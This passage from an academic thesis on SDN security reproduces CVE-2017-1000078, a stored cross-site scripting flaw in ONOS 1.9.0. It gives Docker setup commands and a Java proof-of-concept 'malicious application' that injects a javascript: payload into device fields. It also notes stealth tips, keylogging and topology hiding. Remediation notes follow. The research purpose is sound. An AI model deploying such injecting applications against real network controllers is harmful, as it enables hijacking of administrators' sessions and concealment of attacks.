Since no Cross Site Scripting vulnerability exploitable using a Cross App Poisoning attack was found in web GUI applications, it's worth looking for old Cross Site Scripting vulnerabilities already discovered in previous versions of ONOS. The vulnerability CVE-2017-1000078 tells us that ONOS 1.9.0 is vulnerable to a Cross Site Scripting attack (classified as CWE-79, Improper Neutralization of Input During Web Page Generation) \cite{CVE-2017-1000078}. The vulnerability description in the ONOS Security Advisories web page says that there is a lack of sanitization when the web page is built using data coming from the Host data store. Moreover, it's specified that the vulnerability is exploitable when a user adds new devices or hosts using the HTTP REST API provided by ONOS. In particular, the payload can be inserted in some input fields like serial, swVersion, hwVersion or manufacturer. Even if the description of the vulnerability says that the HTTP REST interface should be used, there's no reason why using a malicious application the attack should not work. Figure \ref{fig:devicexss} shows how the attack should happen. There are four active entities in this hypothetical environment. As soon as the network operator installs and activates the malicious application, the attack starts its work and performs the malicious actions. A new host is created (obviously dummy, it doesn't really exist in the underlying network) and fills in the necessary fields to create a fake host using malicious payloads. The Host data store stores the information on the newly added host without checking the validity of the inserted fields. When the victim requests to view the vulnerable web page, the web application will read from the host data store the data needed to build the requested page. By doing so, the Javascript payload inserted by the attacker will be executed in the victim's browser. In this case it should be noted that to have access to the vulnerable page (actually to all the contents exposed by the web application) you need to have administrator credentials, otherwise if you do not have the cookie with the necessary privileges the application automatically redirects to the login page.

%% - image on how attack works
\begin{figure}[h]
\caption{How the attack works}
\label{fig:devicexss}

\includegraphics[width=1.0\textwidth]{resources/Chapter-4/devicexss.png}
\centering
\end{figure}

\subsection{Proof of Concept}
%% - ONOS docker setup
As already mentioned, the CVE-2017-1000078 vulnerability is present in an older version of ONOS. In particular, versions 1.8.0 and 1.9.0 have been confirmed as vulnerable. Luckily on Docker Hub it was possible to retrieve the docker image for ONOS 1.9.0. The Dockerfile is not very complex: it downloads the ONOS source code, installs some dependencies, exposes the necessary ports and starts ONOS locally \cite{dockeronos}.

To download the ONOS version 1.9.0 docker image to your machine, run the following command.
\begin{lstlisting}[language=bash]
sudo docker pull onosproject/onos:1.9.0
\end{lstlisting}

Once the Docker image of ONOS version 1.9.0 have been installed, it's possible to start the controller using this command. The "run" subcommand starts the container using the the chosen image defined in the last field. The -t (or --tty) flag tells Docker to set up a console within the container. The -p (or --port) flag tells Docker which ports should be exposed outside of the internal Docker network. The --name flag defines the name of the container.
\begin{lstlisting}[language=bash]
sudo docker run -t -p 8181:8181 -p 8101:8101 -p 6653:6653 -p 5005:5005 -p 830:830 --name onos onosproject/onos:1.9.0
\end{lstlisting}

Once ONOS is set up, it is possible to set up the data plane too using Mininet as already explained in previous sections (even if in this attack is not necessary to do so).
\medskip

%% - java code
The malicious application to be developed does not differ much from the others that have been explained and of which the source code is present in this document. For example it is important to remember to update the pom.xml file with the right version of ONOS in all the fields needed to correctly compile the application and use it with the vulnerable version of ONOS.
\begin{lstlisting}
    <parent>
        <groupId>org.onosproject</groupId>
        <artifactId>onos-dependencies</artifactId>
        <version>1.9.0</version>
        <relativePath/><!-- parent is remote -->
    </parent>
...
    <properties>
        <onos.version>1.9.0</onos.version>
\end{lstlisting}

Omitting the imports, the application does not differ from the previous ones: the logger for the built-in logs of ONOS is defined and the various references to the mandatory components that must be present in the ONOS environment for the correct functioning of the application are being defined too. The Javascript payload that will be used in the attack is also defined here.
\begin{lstlisting}[language=java,firstnumber=41]
/**
 * XSS device POC application
 */
@Component(immediate = true)
public class XssDevicePoc {

    private final Logger log = LoggerFactory.getLogger(getClass());

    private final String PAYLOAD = "<a href=javascript:alert(1)>CLICKME</a>";

    @Reference(cardinality = ReferenceCardinality.MANDATORY_UNARY)
    protected CoreService coreService;
...
\end{lstlisting}

Within the \textbf{activate()} method which will automatically be called to activate the application, the \textbf{injectXss()} function is called.
This function creates a new device (or a switch) with the default characteristics and inserts the payload selected by the attacker in all possible fields. In particular, the URI is also created in a way that can create problems for the victim. In this case the fields where the malicious payload is entered are: manufacturer, hwVersion, swVersion and serialNumber. The device store is then used to save the data of the new device created using the \textbf{createOrUpdateDevice()} function. For testing purposes and to better understand if something doesn't work as it should everything is placed inside a try-catch block, obviously in a real attack this shouldn't be inserted to ensure that the network operator does not notice nothing, as few traces as possible are left and the attack is stealthy.
\begin{lstlisting}[language=java,firstnumber=72]
    private void injectXss() {
        try {
            URI uri = new URI("javascript:alert(1)");

            DeviceId dId = pickRandomDevice().id();

            ChassisId cId = new ChassisId(5);

            DefaultAnnotations sa = DefaultAnnotations.builder().build();

            DefaultDeviceDescription deviceDescription = new DefaultDeviceDescription(uri, Device.Type.SWITCH, PAYLOAD,
                    PAYLOAD, PAYLOAD, PAYLOAD, cId, sa);
            deviceStore.createOrUpdateDevice(ProviderId.NONE, dId, deviceDescription);

            log.info("Payload injected!");

        } catch (Exception e) {
            e.printStackTrace();
            StringWriter sw = new StringWriter();
            PrintWriter pw = new PrintWriter(sw);
            e.printStackTrace(pw);
            log.info(sw.toString());
            log.info("exception!!!!!!11!!!!11!");
        }
    }
\end{lstlisting}

This is how the attack will be carried out:
\begin{itemize}
    \item The application is activated and the device containing the malicious payload is created
    \item The victim logs in to the web application
    \item The victim requests the vulnerable web page
    \item The web page is built using the payloads
    \item The victim clicks on the device icon in the topology web page
    \item The victim clicks on the malicious link
    \item The malicious payload is executed in the victim's browser.
\end{itemize}

%% - results obtained and what an attacker can achieve
In this scenario, there are many real attacks that a potential attacker could carry out. As we have already seen in the previous sections, phishing and the keylogger can also be used here. Unfortunately (for the attacker) the session cookie has the HTTPONLY flag set to true also in this application and therefore it is not possible to get the session cookie through a Cross Site Scripting attack and steal the session from the administrator. Obviously, on this page it is also possible to change the network topology that the administrator sees and therefore "hide" switches, links or connections that the attacker would like to remain undiscovered.
\medskip

%% - remediation (issue patched in new releases)
While this is an excellent result given the fact that it is the first time a Cross App Poisoning attack has been used against a non-networking target, it is known to no longer be reproducible with the current version of ONOS (2.7.0). Fortunately, the ONOS Security Advisories page under the section "Patched Versions" says \cite{sec-adv-onos}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
Patches have been committed to 1.8, 1.9, 1.10 and will be included in future builds.
\end{quoting}

Using the malicious application with up-to-date version can confirm that the patch has been applied and that correctly fixes the vulnerability. Unfortunately, strict security checks on the fields of a host or device have not been implemented, which would partially reduce the risk of this type of attack (but in any case the patch must be used by sanitizing the fields when used to build web pages). It should be noted that even in this case it is possible to find the potential Cross App Poisoning attack using the proposed solution

\clearpage

% ================== CHAPTER 5 ==================


\refstepcounter{chapter}
% ================== ACKNOWLEDGMENTS ==================
\chapter*{Acknowledgments}

First of all, I would like to thank Professor Marco Polverini who guided me along this difficult and long path. Before this research activity I had never studied Software Defined networks, except for a practical lesson held by him during the "Network Infrastructures" course. His help was essential to understand the complex concepts and technologies needed to complete this study. Various obstacles have arisen along the way and I am grateful that we have faced them together.\\

Honored to have known them during my studies, my thanks go to the extraordinary professors who have passed their knowledge to me with great passion. These have been years in which I feel I have learned a lot during the courses held by them. I wish anyone embarking on a course of study to be lucky enough to have such passionate and wise people as teachers.\\

I had the pleasure of sharing this journey with fantastic colleagues with whom I shared many beautiful moments. Their help and their company have been essential to overcome the obstacles of the course of study, it's always nice to have someone by your side.\\

To all my amazing friends who have accompanied me on this journey. The laughs and the funny moments we had together helped me and gave me strength in the worst moments. Thank you.\\

The most heartfelt thanks go to my family, and especially to my parents. 
"We are like dwarfs on the shoulders of giants" said the French philosopher Bernard of Chartres, and that is exactly how I feel. 
Theirs was not just help or support, they lifted me up on their shoulders and taught me to see the world with a different perspective.\\
Every day in which I felt weak and inadequate they reminded me to always look at the horizon, that even the sun of the most horrible day sets nevertheless and we will be given a new chance to shine again.\\
You have been amazing, and always will be.\\

\bigskip

Estote Semper Parati


\refstepcounter{chapter}

% ================== BIBLIOGRAPHY ==================
\bibliographystyle{plain}
\bibliography{src/references}

\end{document}